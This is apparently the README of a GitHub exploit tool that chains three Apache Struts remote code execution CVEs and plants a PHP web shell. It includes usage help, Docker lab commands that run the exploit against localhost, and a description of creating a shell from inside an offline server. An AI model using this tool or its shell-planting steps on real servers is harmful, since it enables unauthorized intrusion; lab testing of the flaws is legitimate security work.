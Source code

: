 # Apache-Struts-v3

Script contains the fusion of 3 vulnerabilities of type RCE on ApacheStruts, also has the ability to create server shell.

## Prerequisites

```
pip3 install -r requirements.txt
```

## Usage

```
$ ./ApacheStruts.py --help
usage: ApacheStruts.py [-h] [--version] [-u URL] [--cls] [--no-header]

optional arguments:
  -h, --help         show this help message and exit
  --version          show program's version number and exit
  -u URL, --url URL  URL to exploit
  --cls              clean shell before starting
  --no-header        hide logo header
```


## SHELL
**php** `Finished :)`
**jsp** `In development.`

## CVE ADD
**CVE-2013-2251**  `'action:', 'redirect:' and 'redirectAction'`
```bash
docker run --rm -d --name struts2 -p 8080:8080 2d8ru/struts2
./ApacheStruts.py --url http://localhost:8080/S2-016/default.action
```

**CVE-2017-5638**  `Content-Type`
```bash
docker run --rm -d --name struts2 -p 8080:8080 2d8ru/struts2
./ApacheStruts.py --url http://localhost:8080/S2-033/orders
```
**CVE-2018-11776** `'redirect:' and 'redirectAction'`


<p align="center">
  <img src="https://github.com/s1kr10s/Apache-Struts-v3/blob/master/screen.png" width="600" alt="accessibility text">
</p>


## Upload Shell
This functionality is effective when the server has no internet connection so that we can not upload a file and the best option would be to create a file already being inside.

<p align="center">
  <img src="https://github.com/s1kr10s/Apache-Struts-v3/blob/master/shell.jpg" width="550" alt="accessibility text">
</p>

Thanks.
